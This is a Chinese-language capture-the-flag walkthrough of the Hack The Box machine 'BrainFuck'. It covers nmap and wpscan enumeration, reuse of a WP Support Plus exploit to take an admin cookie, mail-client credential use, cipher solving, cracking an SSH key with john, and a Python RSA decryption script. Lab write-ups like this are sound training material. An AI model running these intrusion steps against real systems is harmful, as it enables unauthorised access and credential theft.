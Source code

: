 
#BrainFuck

``` 
nmap -sc -sV -oA nmap/brain 10.10.10.17
```
查看网页证书，得到相关域名
![](img/BrainFuck-img1.png)

``` 
wpscan https://brainfuck.htb --disable-tls-checks --enumerate u

searchsploit WP Support Plus
```
使用40939.txt文件中的html代码，并修改内容，重新命名并开启本地网页服务  
![](img/BrainFuck-img2.png)

![](img/BrainFuck-img3.png)
访问expoit页面，使用burpsuit代理截获请求，得到管理员cookie
![](img/BrainFuck-img4.png)

使用evolution软件，配置以下参数，最后输入上图得到的密码
``` 
Full Name: orestis
Email Address: orestis@brainfuck.htb

Receiving Email
Server: brainfuck.htb 
Username: orestis

Sending Email
Server: brainfuck.htb
```
![](img/BrainFuck-img5.png)

将该账号密码用于sup3..域名登录, 查看网页，得到两个密文，进行解密
> rumkin.com/tools/cipher/otp.php  
``` 
a = ord('o')-97
b = ord('p')-97
p在ascii的位置向上移动a个数及解码
```
![](img/BrainFuck-img6.png)

根据网页中的其他密文，用passphrase解密
> rumkin.com/tools/cipher/vigenere-keyed.php
![](img/BrainFuck-img7.png)
![](img/BrainFuck-img8.png)

访问网址，得到rsa，进行解密
``` 
cat id_rsa | xclip
./sshng2john.py /root/id_rsa >/root/brainfuck-crack
./john /root/brainfuck-crack --wordlist=/opt/wordlist/rockyou.txt

ssh -i id_rsa orestis@brainfuck.htb
```
加密货币  
google -> decrypt rsa given p,q,e
``` 
cat debug.txt

vi decrypt.py
>
def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
        gcd = b
    return gcd, x, y

def main():

    p = 1090660992520643446103273789680343
    q = 1162435056374824133712043309728653
    e = 65537
    ct = 299604539773691895576847697095098784338054746292313044353582078965

    # compute n
    n = p * q

    # Compute phi(n)
    phi = (p - 1) * (q - 1)

    # Compute modular inverse of e
    gcd, a, b = egcd(e, phi)
    d = a

    print( "n:  " + str(d) );

    # Decrypt ciphertext
    pt = pow(ct, d, n)
    print( "pt: " + str(pt) )

if __name__ == "__main__":
    main()
    

#将解密后的数据，处理
pt = 24604052029401386049980296953784287079059245867880966944246662849341507003750
str(hex(pt)[2:-1]).decode('hex')
```

